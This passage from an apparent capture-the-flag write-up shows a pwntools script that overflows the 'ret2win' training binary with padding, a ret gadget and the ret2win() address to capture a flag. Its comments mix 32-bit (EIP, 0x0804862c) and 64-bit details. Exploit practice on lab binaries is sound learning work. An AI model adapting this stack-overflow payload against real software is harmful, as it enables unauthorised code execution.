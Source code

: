 ```python
'''.format(**locals())

# Target binary
exe = './ret2win'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                     EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 40
ret = 0x000000000040053e

payload = flat(
    b'A' * padding,
    ret,    # Padding up to EIP
    elf.functions.ret2win # Address of ret2win(): 0x0804862c
)

# Write payload to file
write('payload', payload)

# Send payload to target
io.sendlineafter(b'>', payload)

# Get flag
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption><p>Result</p></figcaption></figure>
